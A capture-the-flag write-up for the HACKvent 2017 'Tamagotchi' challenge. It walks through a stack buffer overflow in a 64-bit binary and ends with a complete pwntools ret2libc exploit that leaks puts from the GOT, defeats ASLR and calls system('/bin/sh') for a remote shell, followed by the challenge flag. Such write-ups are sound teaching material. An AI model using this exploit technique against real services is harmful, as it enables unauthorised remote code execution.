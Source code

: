 # Day 21: Tamagotchi
  
*Ohai fuud or gtfo*

**Ohai**

I'm a little tamagotchi who wants fuuuuud, pls don't giveh me too much or I'll crash...

`nc challenges.hackvent.hacking-lab.com 31337`

[File #1: tamagotchi](files/tamagotchi "tamagotchi") + [File #2: libc-2.26.so](files/libc-2.26.so "libc-2.26.so")

### Solution

"*pls don't giveh me too much or I'll crash...*" - hmm, sounds like buffer overflow vulnerability. 

```bash
$ file tamagotchi libc-2.26.so 
tamagotchi:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc180fb6cf42f3134c8b07c42c35f1efdbd88cc2, not stripped
libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6d2b609f0c8e7b338f767b08c5ac712fac809d31, for GNU/Linux 3.2.0, stripped
```

I followed this very useful tutorial about 64-bit Linux stack smashing: [part 1](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/), [part 2](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/), [part 3](https://blog.techorganic.com/2016/03/18/64-bit-linux-stack-smashing-tutorial-part-3/).

I tried to decompile it in IDA first.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char s; // [rsp+0h] [rbp-4D0h]
  char v5; // [rsp+400h] [rbp-D0h]
  int v6; // [rsp+4C8h] [rbp-8h]
  int v7; // [rsp+4CCh] [rbp-4h]

  v7 = 1;
  v6 = 0;
  show_title(*(_QWORD *)&argc, argv, envp);
  result = show_menu();
  while ( v7 )
  {
    puts("[ch01c3]> ");
    fgets(&s, 1024, _bss_start);
    v6 = atoi(&s);
    if ( v6 == 1 )
    {
      puts("[f00d]> ");
      fgets(&v5, 1024, _bss_start);
      result = puts("[+] nom nom nom ");
    }
    else if ( v6 == 2 )
    {
      result = puts("[+] bye bye");
      v7 = 0;
    }
    else
    {
      result = puts("[-] nope!");
    }
  }
  return result;
}
```

The second `fgets` call looked promising - it reads 1024 bytes into a buffer of length of only 200 bytes. So the next step was to find offset to overflow the buffer and overwrite RIP register using `gdb`. Offset of 216 did the job.

```bash
$ gdb tamagotchi
gdb-peda$ pattern_create 250
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b'
gdb-peda$ r
...
[MENU]
1.) eat
2.) bye
[ch01c3]> 
1
[f00d]> 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b
[+] nom nom nom 
[ch01c3]> 
2
[+] bye bye

Program received signal SIGSEGV, Segmentation fault.
...
RSP: 0x7fffffffe478 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b\n")
RIP: 0x40079d (<main+211>:	ret)
...
gdb-peda$ x/wx $rsp
0x7fffffffe478:	0x4325416e
gdb-peda$ pattern_offset 0x4325416e
1126515054 found at offset: 216
```

In 64-bit binaries, function parameters are passed in registers. The first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9. So I employed [`ropper`](https://github.com/sashs/ropper) to find a suitable ROP injection point.

```bash
ropper --file tamagotchi --search "% ?di"
0x0000000000400695: call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006b9: call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x000000000040069a: mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006be: mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400550: mov edi, 0x601048; jmp rax;
0x00000000004006b6: or al, byte ptr [rax]; call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400692: or dword ptr [rax], eax; call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x000000000040054f: pop rbp; mov edi, 0x601048; jmp rax;
0x0000000000400803: pop rdi; ret;
```

The last one at `0x400803` was perfect since the first function parameter needs to be in RDI.

I could take advantage of static analysis of provided copy of `libc.so`, but since ASLR was enabled on the remote server I had to leak remote address of the libc library in memory first.

The high level solution to exploiting this is as follows:
1. Leak the address of a library function in the GOT. In this case I leaked `puts` GOT entry, which gave me `puts` address.
2. Get libc’s base address so we can calculate the address of other library functions. The base address is simply the difference between leaked `puts` address and `puts` offset from provided `libc.so`.
3. A library function’s address can be obtained by adding its offset from `libc.so` to libc’s base address. In this case I got address of `system` function.

```python
from pwn import *
from struct import *

offset     = 216        # offset to overflow to RIP           <-- gdb pattern_create + pattern_offset
pop_ret    = 0x400803   # ROP to inject RDI register          <-- ropper --file tamagotchi --search "% rdi"
main       = 0x4006ca   # address of main to jump back        <-- gdb tamagotchi -ex "p main"
puts_plt   = 0x4004b0   # puts@plt (procedure linkage table)  <-- gdb tamagotchi -ex "p puts"
puts_got   = 0x601018   # puts@got (global offset table)      <-- objdump -R tamagotchi | grep puts
puts_off   = 0x078460   # offset to puts() in libc            <-- readelf -s libc-2.26.so | grep puts
system_off = 0x047dc0   # offset to system() in libc          <-- readelf -s libc-2.26.so | grep system
bin_sh_off = 0x1a3ee0   # offset to "/bin/sh" in libc         <-- objdump -s libc-2.26.so | grep /bin/sh

r = remote("challenges.hackvent.hacking-lab.com", 31337)

# buffer to leak remote puts address
buf_leak = "A" * offset                 # padding to RIP's offset
buf_leak += pack("<Q", pop_ret)         # pop arg into RDI
buf_leak += pack("<Q", puts_got)        # arg: puts@got entry
buf_leak += pack("<Q", puts_plt)        # return to puts
buf_leak += pack("<Q", main)            # return to main

# stage 1: read the remote puts() address
r.recvuntil("[ch01c3]>")
r.sendline("1")                         # choose to eat
r.recvuntil("[f00d]>")
r.sendline(buf_leak)                    # send buffer to leak puts address
r.recvuntil("[ch01c3]>")
r.sendline("2")                         # choose to exit
r.recvuntil("[+] bye bye\n")

# stage 2: calculate remote addresses from known offsets
puts_addr = u64(r.recv(6) + "\x00" * 2) # read remote puts address
libc_base = puts_addr - puts_off        # calculate libc base address
system = libc_base + system_off         # calculate system address
bin_sh = libc_base + bin_sh_off         # calculate "/bin/sh" address

print "[+] libc base at: 0x%08x" % libc_base
print "[+] system() at: 0x%08x" % system
print "[+] /bin/sh at: 0x%08x" % bin_sh
```

It worked like a charm! Now it was time to do the second buffer overflow to get RCE and remote shell access. I used the same ROP injection point to call `system` function with address of `/bin/sh` as its argument and then switched to interactive mode to be able to execute commands.

```python
# buffer to get remote shell
buf_rce = "A" * offset                  # padding to RIP's offset
buf_rce += pack("<Q", pop_ret)          # pop arg into RDI
buf_rce += pack("<Q", bin_sh)           # arg: "/bin/sh"
buf_rce += pack("<Q", system)           # return to system

# stage 3: pwn
r.recvuntil("[ch01c3]>")
r.sendline("1")                         # choose to eat
r.recvuntil("[f00d]>")
r.sendline(buf_rce)                     # send buffer to get remote shell
r.recvuntil("[ch01c3]>")
r.sendline("2")                         # choose to exit
r.recvuntil("[+] bye bye\n")

r.interactive()                         # switch to interactive mode to use shell
```

The complete source code of this remote exploit can be found [here](../../src/main/python/hackvent2017/Day21.py).

Once I got the remote shell it was pretty straightforward.

```bash
$ ls /home
tamagotchi
$ cd /home/tamagotchi
$ ls
flag  tamagotchi
$ cat flag
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```

The result flag:

```
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```